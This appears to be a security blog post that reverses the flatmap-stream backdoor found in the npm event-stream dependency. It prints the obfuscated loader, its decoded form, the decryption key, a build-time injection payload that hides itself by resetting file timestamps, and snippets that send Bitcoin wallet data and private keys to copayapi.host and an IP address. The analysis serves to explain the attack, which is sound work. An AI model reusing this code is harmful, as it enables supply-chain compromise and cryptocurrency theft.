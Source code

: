 ```yaml
---
title: Reversing flatmap-stream
date: '2019-01-13'
slug: '/reversing-flatmap-stream/'
excerpt: Taking a belated look at the backdoor flatmap-stream package
tags: ['javascript', 'reversing', 'security']
---
```


flatmap-stream was included as a dependency in a widely used NPM library event-stream as a nested*.* It was discovered that [the minified version of flatmap-stream had some extra, obfuscated code](https://github.com/dominictarr/event-stream/issues/116). Let’s reverse the code to try to figure out what exactly what it is doing.

## Prettifying the code

```js
!(function() {
  try {
    var r = require,
      t = process;
    function e(r) {
      return Buffer.from(r, 'hex').toString();
    }

    var n = r(e('2e2f746573742f64617461')),
      o = t[e(n[3])][e(n[4])];

    if (!o) return;

    var u = r(e(n[2]))[e(n[6])](e(n[5]), o),
      a = u.update(n[0], e(n[8]), e(n[9]));
    a += u.final(e(n[9]));

    var f = new module.constructor();

    (f.paths = module.paths), f[e(n[7])](a, ''), f.exports(n[1]);
  } catch (r) {}
})();
```

The first thing of note is the `e` function, which converts hex strings. The payload for this malware is hidden within the these hex strings.

First string:

```js
> decode("2e2f746573742f64617461")
'./test/data'
```

This line imports code from the ./test/data folder, which contains 10 more hex obfuscated strings.

```js
module.exports = [
  '...truncated...',
  '...truncated...',
  '63727970746f',
  '656e76',
  '6e706d5f7061636b6167655f6465736372697074696f6e',
  '616573323536',
  '6372656174654465636970686572',
  '5f636f6d70696c65',
  '686578',
  '75746638',
];
```

After decoding and unobfuscating the code, we get

```js
!(function() {
  try {
    var r = require,
      t = process;
    function decode(r) {
      return Buffer.from(r, 'hex').toString();
    }

    // Get data
    var data = require('./test/data');
    // Get the package description, and exit early if it doesn't exist
    var packageDescription = process.env.npm_package_description;
    if (!packageDescription) {
      return;
    }

    // Decode the first payload with the npm package description
    var u = require('crypto').createDecipher('aes256', packageDescription);
    var firstPayload = u.update(data[0], 'hex', 'utf8');
    firstPayload += u.final('utf8');

    // Build a new module
    var f = new module.constructor();

    // Build a new module with the first and second payloads
    (f.paths = module.paths), f._compile(firstPayload, ''), f.exports(data[1]);
  } catch (r) {}
})();
```

This bootstrapping script is looking for a specific module name to properly decode the payload. We could write a script to harvest npm package descriptions that have flatmap-stream in their dependency tree. However, as the target package has already be discovered, we’ll cheat. The AES256 decryption key is `A Secure Bitcoin Wallet`, which was/is the description of the copay package.

## The first payload

```js
module.exports = function(e) {
  try {
    // Exit if specific args aren't in the command line
    if (!/build\\:.*\\-release/.test(process.argv[2])) return;

    // Same npm pack
    var packageDescription = process.env.npm_package_description,
      r = require('fs'),
      i =
        './node_modules/@zxing/library/esm5/core/common/reedsolomon/ReedSolomonDecoder.js',
      // Get stats on ReedSolomonDecoder
      // Read file
      n = r.statSync(i),
      c = r.readFileSync(i, 'utf8'),
      // Create another cipher
      o = require('crypto').createDecipher('aes256', packageDescription),
      // Decrypt
      s = o.update(e, 'hex', 'utf8');
    s = '\\n' + (s += o.final('utf8'));

    // Write the payload into ReedSolomonDecoder, and reset utimes
    var a = c.indexOf('\\n/*@@*/');
    0 <= a && (c = c.substr(0, a)),
      r.writeFileSync(i, c + s, 'utf8'),
      r.utimesSync(i, n.atime, n.mtime),
      process.on('exit', function() {
        try {
          r.writeFileSync(i, c, 'utf8'), r.utimesSync(i, n.atime, n.mtime);
        } catch (e) {}
      });
  } catch (e) {}
};
```

The first payload injects the second payload into release builds of the package.

## The second payload

After decrypting the second payload with the key listed above, we find the meat and potatoes of the malware. Rather that posting the code for the entire block of code, I’ll post snippets that indicate what this payload does.

### POST to copayapi.host:8080 and 111.90.151.134:8080 with url e and payload n

```js
postToUrl('636f7061796170692e686f7374', e, n),
  postToUrl('3131312e39302e3135312e313334', e, n);
```

### Look for wallet files and send the wallet data to hosts above

```js
readFromFile('profile', function(e) {
  for (var t in e.credentials) {
    var n = e.credentials[t];
    // If livenet is the network, look in balanceCache files
    'livenet' == n.network &&
      readFromFile(
        'balanceCache-' + n.walletId,
        function(e) {
          var t = this;
          t.balance = parseFloat(e.balance.split(' ')[0]);
          ('btc' == t.coin && t.balance < 100) ||
            ('bch' == t.coin && t.balance < 1e3) ||
            // Set the wallet's xPubKey to a global var
            // POST wallet information to url:8080/c, 200 bytes at a time
            ((global.CSSMap[t.xPubKey] = !0),
            chunkAndPost('c', JSON.stringify(t)));
        }.bind(n)
      );
  }
});
```

### Extract wallet keys and send to hosts above

```js
var e = require('bitcore-wallet-client/lib/credentials.js');
// Extends getKeysFunc to send all the key information
// Also sends xPubKey previously set in the global var, and clears it
(e.prototype.getKeysFunc = e.prototype.getKeys),
  (e.prototype.getKeys = function(e) {
    var t = this.getKeysFunc(e);
    try {
      global.CSSMap &&
        global.CSSMap[this.xPubKey] &&
        (delete global.CSSMap[this.xPubKey],
        // POST to url:8080/p, 200 bytes at a time
        chunkAndPost('p', e + '\\t' + this.xPubKey));
    } catch (e) {}
    return t;
  });
```

At this point, it’s fairly clear that this piece of malware steals bitcoins and bitcoin cash. This is a fairly narrow scope attack. Most users of the event-stream package weren’t even affected in the first place.

I realize that this blog post is coming fairly late after the original incident, and most of the detective work has already been performed. However, I wanted to take my own stab at it to see if I could reverse it myself.
